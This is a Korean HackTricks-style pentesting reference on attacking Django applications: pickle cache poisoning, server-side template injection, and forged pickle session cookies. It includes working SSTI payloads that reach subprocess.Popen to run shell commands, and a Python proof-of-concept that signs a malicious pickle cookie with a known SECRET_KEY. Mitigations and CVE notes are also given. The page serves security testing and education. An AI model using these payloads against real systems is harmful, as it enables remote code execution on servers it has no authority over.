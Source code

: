 # Django

{{#include ../../banners/hacktricks-training.md}}

## Cache Manipulation to RCE
Django의 기본 캐시 저장 방법은 [Python pickles](https://docs.python.org/3/library/pickle.html)로, [신뢰할 수 없는 입력이 언픽클링될 경우](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf) RCE로 이어질 수 있습니다. **공격자가 캐시에 대한 쓰기 접근 권한을 얻으면, 이 취약점을 기반 서버에서 RCE로 상승시킬 수 있습니다**.

Django 캐시는 네 가지 장소 중 하나에 저장됩니다: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [메모리](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [파일](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), 또는 [데이터베이스](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Redis 서버나 데이터베이스에 저장된 캐시는 가장 가능성이 높은 공격 벡터입니다 (Redis 주입 및 SQL 주입), 그러나 공격자는 파일 기반 캐시를 사용하여 임의의 쓰기를 RCE로 전환할 수도 있습니다. 유지 관리자는 이를 비문제로 표시했습니다. 캐시 파일 폴더, SQL 테이블 이름 및 Redis 서버 세부정보는 구현에 따라 다를 수 있습니다.

이 HackerOne 보고서는 SQLite 데이터베이스에 저장된 Django 캐시를 악용하는 훌륭하고 재현 가능한 예제를 제공합니다: https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
Django 템플릿 언어(DTL)는 **튜링 완전**합니다. 사용자 제공 데이터가 *템플릿 문자열*로 렌더링될 경우 (예: `Template(user_input).render()`를 호출하거나 `|safe`/`format_html()`가 자동 이스케이프를 제거할 때), 공격자는 전체 SSTI → RCE를 달성할 수 있습니다.

### Detection
1. *모든* 비위생화된 요청 데이터를 포함하는 `Template()` / `Engine.from_string()` / `render_to_string()`에 대한 동적 호출을 찾습니다.
2. 시간 기반 또는 산술 페이로드를 전송합니다:
```django
{{7*7}}
```
렌더링된 출력에 `49`가 포함되면 입력이 템플릿 엔진에 의해 컴파일됩니다.

### Primitive to RCE
Django는 `__import__`에 대한 직접 접근을 차단하지만, Python 객체 그래프에 접근할 수 있습니다:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
`subprocess.Popen`의 인덱스를 찾고(약 400–500, Python 빌드에 따라 다름) 임의의 명령을 실행합니다:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
더 안전한 범용 장치는 `cls.__name__ == 'Popen'`이 될 때까지 반복하는 것입니다.

같은 장치는 사용자 입력을 잘못 처리하는 **Debug Toolbar** 또는 **Django-CMS** 템플릿 렌더링 기능에도 적용됩니다.

---

## 피클 기반 세션 쿠키 RCE
설정 `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'`가 활성화되어 있거나 (피클을 역직렬화하는 사용자 정의 직렬 변환기), Django는 *세션 쿠키를 복호화하고 역직렬화*합니다 **보기 코드 호출 전에**. 따라서 유효한 서명 키(기본적으로 프로젝트 `SECRET_KEY`)를 소유하는 것만으로도 즉각적인 원격 코드 실행이 가능합니다.

### 익스플로잇 요구 사항
* 서버가 `PickleSerializer`를 사용합니다.
* 공격자가 `settings.SECRET_KEY`를 알고 있거나 추측할 수 있습니다 (GitHub, `.env`, 오류 페이지 등을 통해 유출됨).

### 개념 증명
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
쿠키를 전송하면 페이로드가 WSGI 작업자의 권한으로 실행됩니다.

**완화 조치**: 기본 `JSONSerializer`를 유지하고, `SECRET_KEY`를 회전시키며, `SESSION_COOKIE_HTTPONLY`를 구성합니다.

---

## 최근 (2023-2025) 고위험 Django CVE 점검 사항
* **CVE-2025-48432** – *이스케이프되지 않은 `request.path`를 통한 로그 주입* (2025년 6월 4일 수정). 공격자가 로그 파일에 개행/ANSI 코드를 밀어넣고 하류 로그 분석을 오염시킬 수 있습니다. 패치 수준 ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *`JSONField`의 `QuerySet.values()/values_list()`에서의 치명적인 SQL 주입* (CVSS 9.8). JSON 키를 조작하여 인용을 벗어나고 임의의 SQL을 실행합니다. 4.2.15 / 5.0.8에서 수정됨.

정확한 프레임워크 버전을 `X-Frame-Options` 오류 페이지 또는 `/static/admin/css/base.css` 해시를 통해 항상 지문을 찍고, 해당되는 경우 위 사항을 테스트합니다.

---

## 참조
* Django 보안 릴리스 – "Django 5.2.2, 5.1.10, 4.2.22가 CVE-2025-48432를 해결합니다" – 2025년 6월 4일.
* OP-Innovate: "Django가 SQL 주입 결함 CVE-2024-42005를 해결하기 위해 보안 업데이트를 릴리스합니다" – 2024년 8월 11일.

{{#include ../../banners/hacktricks-training.md}}
